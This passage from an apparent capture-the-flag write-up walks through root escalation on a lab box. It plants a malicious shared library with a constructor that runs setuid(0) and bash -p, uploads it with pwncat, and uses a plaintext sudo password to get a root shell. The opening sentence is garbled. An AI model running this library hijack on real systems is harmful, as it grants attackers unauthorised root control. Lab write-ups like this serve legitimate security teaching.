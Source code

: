 This means the `/home/rektsu/.config/libcounter.so` library is dynamically linked password after entering the password.

### Shared library object exploit

I found a [blog post](https://tbhaxor.com/exploiting-shared-library-misconfigurations/) that explained how to exploit shared library injection.

_exploit.c_

```c
#include <stdio.h>
#include <stdlib.h>

static void exploit() __attribute__((constructor));

void exploit() {
        setuid(0);
        system("/bin/bash -p");
}
```

The `__attribute__((constructor))` attribute ensures that the `exploit()` function will be automatically called when the shared library is loaded, before the `main()` of `stock` is executed.

Compiling the exploit as a shared library

- `-shared` tells the gcc compiler to create a shared library
- `-fPIC` generates Position Independent Code . _This is required because the shared object should be able to be loaded and executed at any memory address_

```bash
> gcc -shared -o libcounter.so -fPIC exploit.c
> l
Permissions Size User Date Modified Name
.rw-r--r--   130 kali  2 Sep 01:12  exploit.c
.rwxr-xr-x   15k kali  2 Sep 01:12  libcounter.so
```

Uploaded the shared library to the required location on the box and made it executable.

```bash
(remote) rektsu@zipping:/home/rektsu$
(local) pwncat$ upload ../exploit/root/libcounter.so .config/libcounter.so
.config/libcounter.so ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 15.4/15.4 KB • ? • 0:00:00
[01:32:39] uploaded 15.43KiB in 0.94 seconds                                                           upload.py:76
(local) pwncat$
(remote) rektsu@zipping:/home/rektsu$ chmod +x .config/libcounter.so
```

Now, by executing the binary as root and supplying the valid password, it triggers the `bash -p` from the exploit code, granting a shell with root privileges.

```bash
(remote) rektsu@zipping:/home/rektsu$ sudo /usr/bin/stock
Enter the password: St0ckM4nager
root@zipping:/home/rektsu# id
uid=0(root) gid=0(root) groups=0(root)
root@zipping:/home/rektsu# cd
root@zipping:~# ls -l root.txt
-rw-r----- 1 root root 33 Sep  1 11:10 root.txt
````
